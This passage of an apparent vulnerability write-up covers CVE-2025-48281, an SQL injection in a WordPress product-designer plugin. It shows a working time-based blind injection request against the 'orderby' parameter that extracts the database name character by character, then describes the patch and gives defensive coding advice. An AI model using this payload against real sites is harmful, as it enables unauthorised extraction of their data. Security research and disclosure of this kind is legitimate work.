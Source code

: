 ### Get First Letter of Database Name

A prerequisite for dumping data is being able to extract a single character of the database name — if you can get one character, you can typically dump the rest.

Send a request with an SQLi payload:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

This uses `SUBSTRING()` to get the first character of the **database name**, and `IF()` returns `SLEEP(5)` if that character equals `0x77` ('w').

Hex encoding `w` as `0x77` is used because `orderby` comes from a **GET** parameter that may be escaped by WordPress magic quotes.

👉 Based on the response time => the first character is `w`.

## Conclusion

The **CVE-2025-48281** vulnerability in the WordPress **MyStyle Custom Product Designer** plugin prior to version **3.21.2** stems from directly inserting user-controlled input into SQL without sufficient validation, leading to SQL Injection.

The official patch implements a whitelist which ensures the input is validated and safer.

**Key takeaways**:

* Strictly validate user input.
* Always use `$wpdb->prepare()` when working with the database in WordPress to avoid SQL Injection.
* Regularly update plugins and perform security checks to avoid becoming a target.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)
